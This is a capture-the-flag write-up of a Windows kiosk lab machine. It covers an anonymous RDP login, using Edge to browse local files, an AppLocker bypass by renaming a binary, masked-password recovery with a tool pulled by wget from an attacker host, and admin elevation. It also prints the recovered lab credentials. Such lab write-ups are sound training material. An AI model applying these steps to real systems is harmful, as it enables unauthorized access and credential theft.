








## Reconnaissance

### Port Scanning

Starting with a fast port scan using RustScan to identify open ports:

```bash
rustscan -a 10.129.7.54 --ulimit 5000
```

**Result:** Port `3389` (RDP) was found open.

Following up with an Nmap service scan:

```bash
nmap -sC -sV -p3389 10.129.7.54
```

```
PORT     STATE    SERVICE       VERSION
3389/tcp filtered ms-wbt-server
```

Only one port was exposed — RDP on port 3389.

## Initial Access — Kiosk Escape

### Connecting via RDP (Anonymous)

An initial RDP connection was attempted without credentials to enumerate the login screen:

```bash
xfreerdp /v:10.129.234.51 /sec:tls /cert:ignore /dynamic-resolution +clipboard
```



The login screen revealed a **Conference Display** kiosk mode, explicitly stating to log in as `KioskUser0` without a password. Connecting with those credentials:

```bash
xfreerdp /v:10.129.7.54 /u:KioskUser0 /p:"" /dynamic-resolution
```


## Kiosk Enumeration and Escape

### Exploring the Locked-Down Environment

After logging in, the desktop presented a locked-down sandbox environment. The interface was entirely in **Korean**, with most functionality restricted.

- Pressing the **Windows key** opened the Start menu sidebar.
- Attempting to launch **PowerShell** was blocked — it appeared in search results but would not execute.



### Using Microsoft Edge as a File Browser

After testing all installed applications, **Microsoft Edge** was found to be accessible. Edge can be leveraged to browse the local filesystem using the `file://` protocol.

Navigating to `C:/Users/kioskUser0/Desktop/`:



The Desktop contained `desktop.ini`, `Microsoft Edge.lnk`, and `user.txt` (the user flag).

Browsing further to `C:/_admin/profiles.xml` revealed a **Remote Desktop Plus** profile configuration:



The XML file contained:

- **ProfileName:** admin
- **UserName:** 127.0.0.1
- **Password:** `JWqkI6IDfQxXXmiHIKIP8caOG9XxnWQZgvtPgON2vWc=` (Base64 encoded)
- **Secure:** False

## Credential Extraction

### Bypassing AppLocker via Binary Renaming

The `rdp.exe` (Remote Desktop Plus) binary was blocked from executing. However, since **Microsoft Edge** (`msedge.exe`) was whitelisted, the executable was renamed to `msedge.exe` to bypass the application restriction.

After launching the renamed binary, the Remote Desktop Plus profile loaded successfully with the credentials pre-filled:



The password field was masked with bullets. To recover the plaintext password, **BulletsPassView** (a NirSoft utility) was transferred from the attacker machine using a Python HTTP server and `wget` via PowerShell:

```powershell
PS> wget "http://10.10.14.158:80/BulletsPassView.exe" -o BulletsPassView.exe
```

Running BulletsPassView extracted the plaintext password from the masked field:



**Recovered credentials:**

```
Username : admin
Password : Twisting3021
```

## Privilege Escalation

### Running CMD as Admin

With the recovered credentials, a new CMD session was spawned as the `admin` user:

```cmd
runas /user:admin cmd.exe
```

Checking the current user context with `whoami /all`:



The `admin` account was confirmed, but `BUILTIN\Administrators` was flagged as **"Group used for deny only"** — meaning UAC token filtering was actively blocking elevated privileges.

### UAC Bypass via PowerShell Elevation

To bypass the token filtering restriction, a new elevated CMD process was spawned using PowerShell's `Start-Process` with the `-Verb RunAs` flag:

```powershell
powershell -Command "Start-Process cmd -Verb RunAs"
```

This triggered a UAC prompt which was accepted, spawning a fully elevated shell as `Administrator`:



The Administrator Desktop contained `root.txt`, confirming full system compromise.
